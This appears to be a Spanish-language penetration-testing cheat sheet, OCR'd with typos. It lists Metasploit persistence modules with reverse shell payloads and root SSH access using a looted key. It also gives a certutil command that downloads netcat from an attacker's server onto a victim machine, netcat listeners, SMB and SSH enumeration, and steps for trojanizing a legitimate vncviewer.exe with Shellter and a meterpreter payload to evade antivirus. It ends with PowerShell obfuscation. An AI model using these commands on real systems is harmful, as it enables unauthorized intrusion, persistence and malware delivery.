 search platform:linux persistence
use cron_persistence
use service_peristence
set payload cmd/unix/reverse_python
use sshkey_perseistence -La forma mas efectiva de persstencia, sin cambiar claves
	set CREATESSHFLDER true
	set SESSION n
	loot - cat sshkey.txt (el nombre aparece al ejecutar el exploit)
	kali# ssh -i ssh_key.txt root@IPVictima


Vulnerabilidades con Nmap

nmap -sSV -p80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" IP

Netcat

certutil -urlcache -f http://MiServidor/nc.exe nc.exe -Descargar el netcat en maquina victima
Oyente: nc -nvlp 1234
Cliente: nc -nv 1234

arp-scan -I eth0 --localnet -Ver las maquinas que estan en el alncance

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP

smbmap -H IP -Enumerar recursos compartidos
smbmap -H IP -r IPC$
smbmap -H IP --download IPC$/flag.txt
smbmap -H IP -u user -p password -r IPC$

OpenSSG - User Enumeration (https://youtu.be/L1jSoCcvRY4?t=1504)
	python2 ssh_enum_users.py IP Usuario 2>/dev/null -Funciona?

search smtp_enum -Sirve para enumerar usuarios en servicios smbtp (puerto 25)

Evasion de AntiVirus con Sheller - Cambiar los bits e IoC asociados
	sudo apt install shellter -y
	sudo dpkg --add-architecture i386
	sudo apt install wine32 -Para ejecutar .exe en Linux
	cd /user/share/windows.resources/shellter
	sudo wine shellter.exe
A -Automatico
/ruta/archivo/legitimo/vncviewer.exe
Y -Dejar que la aplicacion funcione normalmente
L
1 -Se selecciona el payload

msf>use multi/handler
set payload windows/meterpreter/reverse_tcp -Mismo que en el sheller


Ofuscar Codigo PowerShell -Reorganizar codigo

	Descargar el repositorio de Invoke-Obfuscation
	
	sudo apt install powershell -y -Instalar powershell en Linux
	powershell
	Invoke-Obfuscation
